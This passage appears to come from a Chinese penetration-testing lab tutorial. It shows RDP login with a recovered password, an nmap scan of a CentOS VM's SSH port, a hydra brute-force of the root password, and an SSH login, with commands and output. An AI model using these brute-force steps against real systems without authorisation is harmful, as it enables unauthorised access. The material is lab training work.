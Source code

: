 > 得到密码 hello

运行窗口执行

```
mstsc
```

指定 IP

```
192.168.1.71
```

> 输入用户名和密码登录即可

### 2.2.3 SSH

打开 CentOs ，用 nmap 扫描 ssh 服务端口 22

```
┌──(root㉿Kali-24)-[~]
└─# nmap 192.168.1.76 -p 22 
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-27 19:05 CST
Nmap scan report for 192.168.1.76
Host is up (0.00017s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:88:D0:AB (VMware)

Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

> 可以看到端口开启

使用 hydra 爆破

```
┌──(root㉿Kali-24)-[~]
└─# hydra -l root -P hello.txt ssh://192.168.1.76 -vV
```

```
[22][ssh] host: 192.168.1.76   login: root   password: hello
```

> 成功爆破

连接 CentOS

```
┌──(root㉿Kali-24)-[~]
└─# ssh root@192.168.1.76
```

> 输入密码即可
